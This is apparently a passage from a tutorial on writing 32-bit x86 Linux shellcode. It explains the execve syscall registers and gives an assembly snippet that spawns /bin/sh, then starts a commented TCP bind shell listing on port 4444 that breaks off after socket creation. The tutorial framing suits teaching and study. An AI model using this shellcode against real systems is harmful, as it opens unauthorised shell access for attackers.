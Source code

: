 We will turn to the man pages with command `man 2 execve` to learn more about `execve()`. 
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
+ `EAX = int execve() = 11`
  - System Call Number for `execve`  
```console
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve
  #define __NR_execve   11	
```  
+ `EBX = const char *filename = address of string ("/bin/bash" + "0x00")`
  - Pointer to string in memory storing `/bin/bash` + `NULL Terminated` 
  - `NULL Terminated` ends the string `0x00`  
+ `ECX = char *const argv[] = [ memory address of string "/bin/bash", 0x00000000 ]`
  - Array of argument strings passed to the new program.  
  - #1 = Address of `/bin/bash` in memory  
  - #2 = DWORD (32bit) `NULL = 0x00000000`  
+ `EDX =  char *const envp[] = 0x00000000` 
  - Array of strings which are passed as environment variables to the program.

```nasm
push edx         ; NULL
push 0x68732f2f	 ; "hs//"
push 0x6e69622f  ; "nib/"
mov ebx, esp     ; point ebx to stack
mov ecx, edx     ; NULL
mov al, 0xb      ; execve System Call Number
int 0x80         ; execute execve
```

## Complete TCP Bind Shell Assembly Code

```nasm
; Author: boku
; Purpose: TCP Bind Shell Shellcode
;  Listens on all IPv4 Interfaces, TCP Port 4444
;  Spawns the shell "/bin/sh" upon connection
global _start

section .text

_start:
; 1. Create a new Socket
; <socketcall>  ipv4Socket = socket( AF_INET, SOCK_STREAM, 0 );
;   EAX=0x66                  EBX     ECX[0]   ECX[1]    ECX[2]
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x1       ; EBX is set to create a socket
xor ecx, ecx      ; This sets the ECX Register to NULL (all zeros).
push ecx          ; ECX[2]. ECX is NULL, the value needed for the first
                  ;   argument we need to push onto the stack
push ebx          ; ECX[1]. EBX already has the value we need for ECX[1] 
                  ;   we will simply use it to push the value 1.
push dword 0x2    ; ECX[0]. Push the value 2 onto the stack, needed for AF_INET.
mov ecx, esp      ; ECX now holds the pointer to the beginning of the 
                  ;   argument array stored on the stack.
int 0x80          ; System Call Interrupt 0x80 - Executes socket(). 
                  ;   Creates the Socket.
xchg esi, eax     ; After the SYSCAL, sockfd is stored in the EAX Register. 
                  ;   Move it to the ESI Register; we will need it later.

; 2+3. Create TCP-IP Address and Bind the Address to the Socket
; struct sockaddr_in ipSocketAddr = { 
; .sin_family = AF_INET, .sin_port = htons(4444), .sin_addr.s_addr = INADDR_ANY};
```

[1]: 1
[1]: 1